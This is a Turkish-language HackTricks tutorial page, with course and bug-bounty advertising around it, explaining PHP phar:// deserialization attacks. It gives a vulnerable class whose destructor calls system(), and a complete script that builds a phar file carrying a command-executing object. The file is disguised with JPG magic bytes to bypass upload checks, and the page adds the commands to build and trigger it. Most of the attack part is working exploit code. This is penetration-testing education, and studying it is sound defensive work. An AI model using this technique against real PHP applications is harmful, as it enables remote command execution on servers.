 # phar:// deserialization

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **Bize katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya **bizi** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'da takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

<figure><img src="../../.gitbook/assets/i3.png" alt=""><figcaption></figcaption></figure>

**Bug bounty ipucu**: **Intigriti**'ye **kaydolun**, **hackers tarafından, hackers için oluşturulmuş premium bir bug bounty platformu**! Bugün [**https://go.intigriti.com/hacktricks**](https://go.intigriti.com/hacktricks) adresine katılın ve **$100,000**'a kadar ödüller kazanmaya başlayın!

{% embed url="https://go.intigriti.com/hacktricks" %}

**Phar** dosyaları (PHP Archive) **serileştirilmiş formatta meta veri içerir**, bu nedenle, ayrıştırıldığında bu **meta veri** **deserileştirilir** ve **PHP** kodu içinde bir **deserileştirme** açığını kötüye kullanmayı deneyebilirsiniz.

Bu özelliğin en iyi yanı, bu deserileştirmenin **file\_get\_contents(), fopen(), file() veya file\_exists(), md5\_file(), filemtime() veya filesize()** gibi PHP kodunu eval etmeyen PHP fonksiyonları kullanıldığında bile gerçekleşmesidir.

Yani, bir PHP web uygulamasının **`phar://`** protokolünü kullanarak keyfi bir dosyanın boyutunu alabileceği bir durumu hayal edin ve kodun içinde aşağıdaki gibi bir **sınıf** bulursunuz:

{% code title="vunl.php" %}
```php
<?php
class AnyClass {
public $data = null;
public function __construct($data) {
$this->data = $data;
}

function __destruct() {
system($this->data);
}
}

filesize("phar://test.phar"); #The attacker can control this path
```
{% endcode %}

Yüklenildiğinde **bu sınıfı kötüye kullanarak rastgele komutlar çalıştıracak** bir **phar** dosyası oluşturabilirsiniz:

{% code title="create_phar.php" %}
```php
<?php

class AnyClass {
public $data = null;
public function __construct($data) {
$this->data = $data;
}

function __destruct() {
system($this->data);
}
}

// create new Phar
$phar = new Phar('test.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub("\xff\xd8\xff\n<?php __HALT_COMPILER(); ?>");

// add object of any class as meta data
$object = new AnyClass('whoami');
$phar->setMetadata($object);
$phar->stopBuffering();
```
{% endcode %}

**JPG'nin sihirli baytlarının** (`\xff\xd8\xff`) phar dosyasının başına eklendiğine dikkat edin, bu **mümkün** dosya **yükleme** **kısıtlamalarını** **aşmak** için.\
`test.phar` dosyasını şu şekilde **derleyin**:
```bash
php --define phar.readonly=0 create_phar.php
```
Ve zayıf kodu kötüye kullanarak `whoami` komutunu çalıştırın:
```bash
php vuln.php
```
### Referanslar

{% embed url="https://blog.ripstech.com/2018/new-php-exploitation-technique/" %}

<figure><img src="../../.gitbook/assets/i3.png" alt=""><figcaption></figcaption></figure>

**Hata ödülü ipucu**: **Intigriti** için **kayıt olun**, **hackerlar tarafından, hackerlar için oluşturulmuş premium bir hata ödülü platformu**! Bugün [**https://go.intigriti.com/hacktricks**](https://go.intigriti.com/hacktricks) adresine katılın ve **$100,000**'a kadar ödüller kazanmaya başlayın!

{% embed url="https://go.intigriti.com/hacktricks" %}

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter**'da **bizi takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
